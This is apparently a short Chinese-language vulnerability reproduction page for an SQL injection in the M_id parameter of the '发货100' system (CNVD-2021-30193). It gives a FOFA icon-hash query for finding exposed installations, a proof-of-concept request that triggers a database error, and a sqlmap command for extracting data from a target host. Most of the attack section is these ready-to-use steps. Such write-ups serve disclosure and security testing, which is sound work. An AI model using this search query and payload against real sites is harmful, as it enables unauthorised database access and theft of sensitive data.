 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>发货100</a-checkbox></br>

## FOFA

<a-checkbox checked>icon_hash="1420424513"</a-checkbox></br>

## 漏洞复现

主页面如下



![img](../../../.vuepress/public/img/image-20210602204745265.png)



使用POC



```plain
/?M_id=1%27&type=product
```



![img](../../../.vuepress/public/img/image-20210602204842198.png)



数据库出现报错, 使用Sqlmap注入



```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```



![img](../../../.vuepress/public/img/image-20210602233608318.png)